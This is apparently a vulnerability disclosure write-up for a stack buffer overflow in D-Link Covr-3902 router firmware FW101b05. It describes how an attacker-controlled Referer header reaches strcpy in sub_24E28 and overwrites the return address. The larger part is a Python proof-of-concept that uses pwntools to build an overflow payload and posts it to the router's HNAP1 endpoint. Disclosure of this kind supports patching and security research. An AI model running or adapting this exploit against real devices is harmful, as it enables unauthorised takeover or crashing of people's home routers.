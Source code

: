 # Covr-3902 stack overflow vulnerability
## Overview
Manufacturer's website:[http://www.dlink.com.cn/](http://www.dlink.com.cn/)

Firmware download website:[http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902)
## Affected version
FW101b05
## Vulnerability details
In the function `sub_24E28`, the `HTTP_REFERER` is obtained through an environment variable, and this field is controllable, allowing it to be used as the value for `src`.
![](./_v_images/20240812131205937_2109.png)
When the field value does not match the field within the program, it enters the `else` branch.
![](./_v_images/20240812123056250_20357.png)
The stack overflow is achieved through the `strcpy` function, which overwrites the return address, and the address is controllable.
![](./_v_images/20240812142111525_6038.png)
## POC
```python
import requests
from pwn import *
payload = (
    b"http://192.168.0.1/SystemPayload"
    + payload_value
    + p32(0xdeadbeef)
    + payload_value2
    + p32(0xdeadbeef)
    + p32(0xdeadbeef)
    + cyclic(0x400)
)
# URL encode the payload to make it safe for use in the Referer header
burp0_url = "http://192.168.0.1:80/HNAP1/"
burp0_cookies = {"uid": "YAQEECTwfI"}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": "\"http://purenetworks.com/HNAP1/GetDeviceFeatureAlpha\"",
    "HNAP_AUTH": "6E2565C8AE7008FF550E57BEB55A8FEE 1723345713",
    "Content-Length": "318",
    "Adcheck": "65535",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": payload  
}
response = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print("Response Status Code:", response.status_code)
print("Response Content:", response.text)
```
